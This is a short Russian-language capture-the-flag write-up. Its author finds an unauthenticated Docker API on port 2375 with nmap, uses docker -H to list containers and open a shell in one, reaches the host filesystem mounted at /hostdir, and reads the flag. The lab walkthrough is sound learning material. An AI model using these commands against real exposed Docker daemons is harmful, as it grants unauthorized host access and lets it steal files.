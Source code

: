 Из названия таска выходит что в этой сети есть докер, пробуем командой nmap найти его, и находим что он открыт на ip 10.10.13.34 и порту 2375
Далее подключаемся через docker -H tcp://10.10.13.30:2375 ps узнаем контейнер айди
docker -H tcp://10.10.13.34:2375 exec -it <CONTAINER_ID> /bin/sh
и читаем флаг

```
└─$ docker -H tcp://10.10.13.34:2375 ps
CONTAINER ID   IMAGE          COMMAND                  CREATED        STATUS      PORTS     NAMES
82b4f0f6fe52   nginx:latest   "/docker-entrypoint.…"   2 months ago   Up 3 days   80/tcp    root-ubuntu-1
           
```

```
┌──(kali㉿kaliOlymp)-[~/Загрузки/CVE-2021-4045]
└─$ docker -H tcp://10.10.13.34:2375 exec -it 82b4f0f6fe52 /bin/sh 
# ls
bin  boot  dev  docker-entrypoint.d  docker-entrypoint.sh  etc  home  hostdir  lib  lib64  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
# cd /hostdir
# ls
bin  boot  dev  etc  home  lib  lib32  lib64  libx32  lost+found  media  mnt  opt  proc  root  run  sbin  snap  srv  swap.img  sys  tmp  usr  var
# vd^H^H^H^H^H^H^H^H^H^H
/bin: not found
# cd hostdir
/bin/sh: 5: cd: can't cd to hostdir
# ls
bin  boot  dev  etc  home  lib  lib32  lib64  libx32  lost+found  media  mnt  opt  proc  root  run  sbin  snap  srv  swap.img  sys  tmp  usr  var
# cd^H^H
/bin/sh: 7: : not found
# cd home
# ls
user
# cd user
# ls
docker-compose.yml  flag.txt
# cd^Hat fla^H
/bin/sh: 12: cat: not found
# cat flag.txt
nto{Ne_Zabyavay_Zakryavat_Socket_2375}
# 

```

